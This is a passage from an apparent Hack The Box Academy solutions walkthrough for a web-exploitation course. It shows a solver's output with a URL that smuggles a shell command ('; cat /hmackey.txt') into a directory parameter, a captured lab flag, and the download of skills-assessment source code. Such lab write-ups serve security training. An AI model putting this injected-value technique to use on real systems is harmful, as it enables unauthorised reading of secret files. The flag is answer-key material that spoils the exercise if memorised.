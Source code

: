 ```shell
┌─[eu-academy-1]─[10.10.14.41]─[htb-ac-413848@htb-xgpgjbdpzh]─[~]
└──╼ [★]$ python3 solver.py

Found valid MAC:
http://139.59.188.199:32632/dir.php?dir=%2Fhome%2Fhtb-stdnt%2F%3B+cat+%2Fhmackey.txt&nonce=6241&mac=0
```

![[HTB Solutions/CWEE/z. images/e24e6cc83786b7b7a7e62210d8004179_MD5.jpg]]

Answer: `HTB{96364150ec4520c703ed4eeb5ce2893d}`

# Skills Assessment

## Question 1

### "Exploit the web application and obtain the flag."

After spawning the target machine, students need to download [code\_skillsassessment.zip](https://academy.hackthebox.com/storage/modules/205/code_skillsassessment.zip) and then unzip it:

```shell
wget https://academy.hackthebox.com/storage/modules/205/code_skillsassessment.zip && unzip code_skillsassessment.zip
```
```shell
┌─[eu-academy-1]─[10.10.14.41]─[htb-ac-413848@htb-7nouwr2zff]─[~]
└──╼ [★]$ wget https://academy.hackthebox.com/storage/modules/205/code_skillsassessment.zip && unzip code_skillsassessment.zip

--2023-07-06 04:29:36--  https://academy.hackthebox.com/storage/modules/205/code_skillsassessment.zip
Resolving academy.hackthebox.com (academy.hackthebox.com)... 104.18.21.126, 104.18.20.126, 2606:4700::6812:147e, ...
Connecting to academy.hackthebox.com (academy.hackthebox.com)|104.18.21.126|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 146376 (143K) [application/zip]
Saving to: ‘code_skillsassessment.zip’

code_skillsassessment.zip                            100%[=====================================================================================================================>] 142.95K  --.-KB/s    in 0.006s  

2023-07-06 04:29:36 (23.6 MB/s) - ‘code_skillsassessment.zip’ saved [146376/146376]

Archive:  code_skillsassessment.zip
   creating: src/
  inflating: src/admin.php           
  inflating: src/config.php          
   <SNIP>
```
